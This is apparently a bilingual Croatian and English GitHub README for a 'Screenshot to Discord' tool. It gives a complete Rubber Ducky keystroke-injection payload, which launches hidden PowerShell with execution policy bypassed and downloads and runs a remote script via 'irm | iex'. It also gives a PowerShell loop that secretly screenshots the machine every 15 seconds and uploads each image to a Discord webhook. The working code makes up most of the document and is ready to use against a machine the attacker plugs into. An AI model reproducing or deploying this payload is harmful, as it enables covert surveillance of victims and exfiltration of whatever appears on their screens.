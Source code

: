 ### README.md (na Hrvatskom)

# Screenshot na Discord Webhook

Ova skripta omogućuje automatsko slanje screenshotova s vašeg računala na Discord kanal koristeći webhook. Skripta koristi PowerShell za snimanje zaslona, a Rubber Ducky uređaj za automatsko pokretanje procesa.

## Preduvjeti

1. **Rubber Ducky uređaj** (ili kompatibilni uređaj).
2. **PowerShell** instaliran na računalu (Windows).
3. **Discord webhook URL** za slanje screenshotova.

## Instalacija i Postavljanje

### 1. Priprema PowerShell Skripte

Prvo, trebate imati skriptu koja će automatski preuzeti sliku ekrana i poslati je na vaš Discord kanal. Ovu skriptu možete pohraniti na **GitHub** ili bilo koji drugi poslužitelj.

1. Spremite PowerShell skriptu (`screenshot.ps1`) na GitHub ili neki drugi poslužitelj. Ako koristite GitHub, možete je pohraniti kao **gist**.

2. Zamijenite `DISCORD_WEBHOOK_HERE` u Rubber Ducky skripti sa stvarnim Discord webhook URL-om.

### 2. Rubber Ducky Skripta

Ovdje je skripta koju treba prenijeti na vaš **Rubber Ducky uređaj**. Ova skripta će otvoriti PowerShell, preuzeti PowerShell skriptu s vašeg poslužitelja i izvršiti ju.

**Rubber Ducky Skripta:**

```plaintext
DELAY 1000
GUI r
DELAY 750
STRING powershell -NoP -Ep Bypass -W H -C $dc='DISCORD_WEBHOOK_HERE'; irm linkzaps1fajlgithub | iex
ENTER
```

Zamijenite `linkzaps1fajlgithub` s URL-om na kojem je pohranjena vaša PowerShell skripta.

### 3. PowerShell Skripta (screenshot.ps1)

Ovdje je sadržaj PowerShell skripte koja će preuzeti screenshot i poslati ga na Discord webhook.

```powershell
$hookurl = $dc
$seconds = 15
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
while ($true) {
    $Filett = "$env:temp\SC.png"
    $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
    $Width = $Screen.Width
    $Height = $Screen.Height
    $Left = $Screen.Left
    $Top = $Screen.Top
    $bitmap = New-Object System.Drawing.Bitmap $Width, $Height
    $graphic = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)
    $bitmap.Save($Filett, [System.Drawing.Imaging.ImageFormat]::Png)
    curl.exe -F "file1=@$Filett" $hookurl
    Remove-Item -Path $Filett
    Start-Sleep $seconds
}
```

### 4. Pokretanje

1. Spojite **Rubber Ducky uređaj** na računalo.
2. Skripta će automatski otvoriti PowerShell, preuzeti i pokrenuti PowerShell skriptu koja snima screenshotove.
3. Svakih 15 sekundi, skripta će snimiti sliku ekrana i poslati je na Discord kanal.

## Upute za prilagodbu

* **Interval između screenshotova**: Ako želite promijeniti interval između slanja screenshotova, uredite vrijednost `$seconds` u PowerShell skripti.
* **Webhook URL**: Promijenite `DISCORD_WEBHOOK_HERE` u stvarni URL vašeg Discord webhook-a.

---

### README.md (in English)

# Screenshot to Discord Webhook

This script allows automatic screenshot capturing from your computer and sends them to a Discord channel using a webhook. It uses PowerShell to capture the screen and a Rubber Ducky device to automate the process.

## Prerequisites

1. **Rubber Ducky device** (or a compatible device).
2. **PowerShell** installed on your computer (Windows).
3. **Discord webhook URL** for sending screenshots.

## Installation and Setup

### 1. Preparing the PowerShell Script

First, you need to have a script that will automatically capture the screen and send it to your Discord channel. You can store this script on **GitHub** or any other server.

1. Save the PowerShell script (`screenshot.ps1`) on GitHub or any other server. If you're using GitHub, you can store it as a **gist**.

2. Replace `DISCORD_WEBHOOK_HERE` in the Rubber Ducky script with your actual Discord webhook URL.

### 2. Rubber Ducky Script

Here is the script you need to upload to your **Rubber Ducky device**. This script will open PowerShell, download the PowerShell script from your server, and execute it.

**Rubber Ducky Script:**

```plaintext
DELAY 1000
GUI r
DELAY 750
STRING powershell -NoP -Ep Bypass -W H -C $dc='DISCORD_WEBHOOK_HERE'; irm linkzaps1fajlgithub | iex
ENTER
```

Replace `linkzaps1fajlgithub` with the URL where your PowerShell script is stored.

### 3. PowerShell Script (screenshot.ps1)

Here is the content of the PowerShell script that will capture the screenshot and send it to the Discord webhook.

```powershell
$hookurl = $dc
$seconds = 15
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
while ($true) {
    $Filett = "$env:temp\SC.png"
    $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
    $Width = $Screen.Width
    $Height = $Screen.Height
    $Left = $Screen.Left
    $Top = $Screen.Top
    $bitmap = New-Object System.Drawing.Bitmap $Width, $Height
    $graphic = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)
    $bitmap.Save($Filett, [System.Drawing.Imaging.ImageFormat]::Png)
    curl.exe -F "file1=@$Filett" $hookurl
    Remove-Item -Path $Filett
    Start-Sleep $seconds
}
```

### 4. Running

1. Plug in the **Rubber Ducky device** to the computer.
2. The script will automatically open PowerShell, download, and run the PowerShell script that captures the screenshots.
3. Every 15 seconds, the script will take a screenshot and send it to the Discord channel.

## Customization Instructions

* **Screenshot Interval**: If you want to change the interval between screenshots, modify the `$seconds` value in the PowerShell script.
* **Webhook URL**: Change `DISCORD_WEBHOOK_HERE` to your actual Discord webhook URL.

---
